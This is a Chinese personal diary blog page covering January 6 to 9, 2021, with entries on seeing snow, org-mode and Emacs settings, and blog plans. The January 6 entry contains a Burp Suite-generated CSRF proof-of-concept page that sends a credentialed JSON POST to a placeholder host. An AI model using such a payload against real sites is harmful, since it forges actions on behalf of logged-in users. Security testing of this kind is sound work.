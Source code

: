 +++
title = "20210104"
draft = false
+++

<!--more-->


## 星期三, 21/01/06 {#星期三-21-01-06}

使用 ajax 发送 csrf 请求的 demo:

```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
    <script>
        history.pushState('', '', '/')
        function csrf() {
            const json_data = JSON.stringify(["57f9d387b754299727a9e5f5e9f314a4"]);
            const xhr = new XMLHttpRequest();
            xhr.open('POST', 'http://xxx');
            xhr.setRequestHeader('Content-Type', 'application/json');
            xhr.withCredentials = true; // ajax 默认不携带 cookie
            xhr.send(json_data);
        }
    </script>
    <input type="button" value="Submit request" onclick="csrf()" />
</body>
</html>
```


## 星期四, 21/01/07 {#星期四-21-01-07}


### 19:00 雪❄ {#19-00-雪}

这应该算是我第一次看到下雪了, 虽然不是很大, 记忆中还有一次是小时候在湖南看到的,
不过印象很模糊. 再往前我应该也看过很厚的积雪, 不过那时候太小, 已经完全不记得了

{{< figure src="/ox-hugo/2021-01-09_11-19-26_2021-01-08_snow.jpg" >}}


## 星期五, 21/01/08 {#星期五-21-01-08}


### <span class="org-todo done DONE">DONE</span> 今天尽量写完 org mode 的推荐文章 {#今天尽量写完-org-mode-的推荐文章}

-   State "DONE"       from "TODO"       <span class="timestamp-wrapper"><span class="timestamp">[2021-01-08 周五 14:23]</span></span>


## 星期六, 21/01/09 {#星期六-21-01-09}


### 00:39 午夜 {#00-39-午夜}

单纯想看看半夜写日记的话, 是按哪一天算. 感觉从早上开始算新的一天比较合适, 设置很
简单:

```emacs-lisp
(setq org-extend-today-until 6)
```


### 14:56 {#14-56}

果然又忍不住折腾起来了, 想用 org-reveal 做一个 gallery 分享一些喜欢的图片或者照片,
再搞个网易云插件分享喜欢的音乐😵

考虑了一下之后还是觉得太不务正业了, 花这时间还不如去学习学习, 写点有营养的文章.
所以还是决定尽量保持博客的简洁, 所有分享的东西直接放在日记里就好了


### 15:12 《俏郎君》 {#15-12-俏郎君}

{{< bilibili BV16h41127L6 >}}
